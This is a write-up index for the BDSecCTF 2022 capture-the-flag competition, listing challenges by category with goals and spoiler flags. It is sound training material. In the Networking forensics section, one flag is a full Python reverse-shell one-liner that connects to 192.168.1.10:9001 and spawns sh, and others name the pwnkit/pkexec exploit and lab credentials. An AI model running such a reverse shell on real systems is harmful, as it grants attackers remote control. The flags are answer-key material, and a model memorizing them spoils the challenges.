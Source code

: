 # BDSecCTF - Write Up

## Context
The goal is to solve cybersecurity tests in various categories. The validation of a challenge is done by retrieving a string called flag which confirms the fact that you have passed the associated test and allows you to obtain the associated points.

## Rules
- Time : 24h (07/20/22 17h - 07/21/22 17h (UTC+2) )
- Max Pers per Team : 5
- Submit Limit : 30 per chall

## Results 
<p align='center'>

| ![Screenshot](Stats.png)            | ![Screenshot](Scoreboard.png)                                                                                                           |
| --------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
</p>

## Challenges

### Steganography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| [Sound's Good ✘](https://github.com/Beel0w/BDSecCTF/tree/main/Steganography/Sound's%20Good)|50|Convert a base 64 to .mp3. Listen and then convert the resulting number from bytes.fromhex to text. |<details><summary>`Spoiler`</summary>`BDSEC{Y3s_Y0U_GOT_Th3_Fl4G!|}`</details>|
| Deep Dive Into It !! ✘|250||``|

### PWN

| Chall Name|Points|Goal|Flag|
|----------|:--:|:-:|:-:|
| PwnRace ✔|200||``|

### Reverse

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
| BDSec License Checker 0x1 ✘|50|| <details><summary>`Spoiler`</summary>`BDSEC{l1c3n53_ch3ck3r_0x1_2022}`</details> |
| shashdot ✘|50|| `` |
| Flag Box ✔|100|| `` |
| Simple Math ✔|100|| `` |
| Poster ✔|100|| `` |
| BDSec License Checker 0x03 ✘|150|| <details><summary>`Spoiler`</summary>`BDSEC{iTs_lIcEnsE_cHeCker_tHrEE_bDsEc}`</details> |
| BDSec License Checker 0x02 ✘|200||``|

### Cryptography

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Crypto Code ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Cryptocode)|25|Using a python library to decrypt a message|<details><summary>`Spoiler`</summary>`BDSEC{cryp70_and_pyth0n_ar3_aw3s0me}`</details> |
|[VIPx01 ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/VIPx01)|25|Decrypting an encrypted message with Affine Cipher| <details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3}`</details> |
|VIPx02 ✘|25||<details><summary>`Spoiler`</summary>`BDSEC{crypt0_ar3_aw3s0m3_&_try_t0_1earn_crypt0}`</details> |
|[Fake ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Fake)|50|Decrypt a message in the form of spam|<details><summary>`Spoiler`</summary>`BDSEC{do3sn't_b3li3ve_1n_unkn0wn_mail}`</details> |
|[Basically RSA ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Cryptography/Basically%20RSA)|100|Decrypting an encrypted message with RSA|<details><summary>`Spoiler`</summary>`DSEC{r54_i5_fUn_r16h7?}`</details> |
|Dominoes ✘|50||<details><summary>`Spoiler`</summary>`BDSEC{n0t_50_e45y_hUh?_433}`</details> |
|Loop Lover ✘|100||<details><summary>`Spoiler`</summary>`BDSEC{ju57_L00p_m3_4w4y}`</details> |

### Web

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|Jungle Templating ✔|100||<details><summary>`Spoiler`</summary>`BDSEC{Y3Y_7H1515_7H3_F146}`</details> |
|[Awesome Note Keeping ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Web/Awesome%20Note%20Keeping)|100|Understanding how the script works in php to bypass the system| <details><summary>`Spoiler`</summary>`BDSEC{tHe_n0t3_K33p1n6_4W350M3_N5}`</details> |
|Knight Squad Shop ✔|100|| <details><summary>`Spoiler`</summary>`BDSEC{mummy_i_can't_write_javaScript}`</details> |

### Programming

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Cost ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Programming/Find%20the%20Cost)|100|Create an algorithm to calculate the shortest path from a matrix|<details><summary>`Spoiler`</summary>`BDSEC{35,47}`</details> |

### OSINT

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Find The Masterpiece](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20The%20Masterpiece) ✔|50|Turn numbers into tone and find the associated music|<details><summary>`Spoiler`</summary>`BDSEC{he’s_a_pirate,2003}`</details> |
|[Find Rejvi ✔](https://github.com/Beel0w/BDSecCTF/tree/main/OSINT/Find%20Rejvi)|70|Find a person’s profile on social media|<details><summary>`Spoiler`</summary>`BDSEC{yoU_goT_m3__oS1nT_I5_fUn_r1Gh7}`</details> |


### Misc

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Message of Hufflepuff ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Misc/Message%20of%20Hufflepuff)|50|Find a message from a probability diagram|<details><summary>`Spoiler`</summary>`BDSEC{Huffm@n_Enc0d1ng_go7_D3COD3D}`</details> |
|Find Me Inside ✔|50||<details><summary>`Spoiler`</summary>`BDSEC{M33m_the_butterfly_goes_up_up_and_away}`</details> |

### Networking

| Chall Name | Points | Goal | Flag |
|------------|:------:|:----:|:----:|
|[Victim & Attacker ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking#victim--attacker)|25|Find the ip of the server and the attacker|<details><summary>`Spoiler`</summary>`BDSEC{192.168.1.13_192.168.1.10}`</details> |
|[Which FTP ? ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#which-ftp)|50|Find the ftp version|<details><summary>`Spoiler`</summary>`BDSEC{vsFTPd_3.0.3}` |
|[FTP Creads ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#ftp-creads)|50|Find the credentials to access the ftp server|<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin_ftpadmin}`</details> |
|[Uploaded File ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#uploaded-file)|50|Find the file uploaded on the server| <details><summary>`Spoiler`</summary>`BDSEC{/files/.hacker.not}`</details> |
|[Log Filer ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#log-file)|50|Find the name of the log file associated with the ftp server|<details><summary>`Spoiler`</summary>`BDSEC{vsftpd.log}`</details> |
|[Project Incharge ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#project-incharge)|50|Find the name of the person in charge of the project|<details><summary>`Spoiler`</summary>`BDSEC{Mark}`</details> |
|[Loooon Looong ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#loooong-loooong)|50|Find the date of an event in the logs|<details><summary>`Spoiler`</summary>`BDSEC{Thu_Jul_14_10:16:59}`</details> |
|[Administrator ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#administrator)|50|Find the information entered in a login form|<details><summary>`Spoiler`</summary>`BDSEC{demo,demo}` |
|[Shell ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#shell)|50|Find the executed script to have access to the shell|<details><summary>`Spoiler`</summary>`BDSEC{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'}`</details> |
|[Secret Key ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#secret-key)|50|Find a secret key in a database| <details><summary>`Spoiler`</summary>`BDSEC{2jo3t12nv51w1pw4wk1kj58s1jb6w0}`</details> |
|[Database Admin ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#database-admin)|50|Find the credentials to connect to the database as admin|<details><summary>`Spoiler`</summary>`BDSEC{root_root}`</details> |
|[HostName ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#hostname)|50|Find the hostname of the server|<details><summary>`Spoiler`</summary>`BDSEC{ftpadmin}`</details> |
|[CodeName ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#codename)|50|Find the codename of a server|<details><summary>`Spoiler`</summary>`BDSEC{xenial}`</details> |
|[Server Info ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#server-info)|50|Find the Server Bone and the version used|<details><summary>`Spoiler`</summary>`BDSEC{Ubuntu_16.04.1_LTS_Xenial_Xerus}`</details> |
|[Service Exploit ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#service-exploit)|50|Find the service package used|<details><summary>`Spoiler`</summary>`BDSEC{polkit}`</details> |
|[Exploit Exploit Exploit ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#exploit-exploit)|50|Find the name of the exploit used|<details><summary>`Spoiler`</summary>`BDSEC{pwnkit}`</details> |
|[Vulnerable Service ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#vuln%C3%A9rable-service)| 50|Find the name of the vulnerable service|<details><summary>`Spoiler`</summary>`BDSEC{pkexec}` |
|[msg.txt ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#msgtxt)|50|Find a note|<details><summary>`Spoiler`</summary>`BDSEC{The_Server_Is_Now_under_My_Control_:D_:D}`</details> |
|[Attacker ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#attacker)|50|Find the name of an attacker|<details><summary>`Spoiler`</summary>`BDSEC{N4N0M473}`</details> |
|[Server User's ✔](https://github.com/Beel0w/BDSecCTF/tree/main/Networking/README.md#server-users) |50|Find the number of users|<details><summary>`Spoiler`</summary>`BDSEC{8}`</details> |  

**Total : 46 Challenges ( 3220 Points )**
 
Credits : [Beel0w](https://github.com/Beel0w)  
Last Edited on: 28/07/2022
  
